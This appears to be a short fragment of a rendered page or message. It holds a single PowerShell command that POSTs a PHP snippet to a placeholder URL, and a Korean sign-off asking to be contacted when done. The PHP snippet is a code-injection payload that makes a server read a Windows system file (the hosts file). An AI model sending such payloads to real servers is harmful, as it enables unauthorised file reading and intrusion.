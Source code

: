 ```powershell
Invoke-WebRequest -Uri $url -Method POST -Body "<?php echo file_get_contents('C:\\Windows\\System32\\drivers\\etc\\hosts'); ?>"
```

---

**완료 후 연락주세요!** 🚀
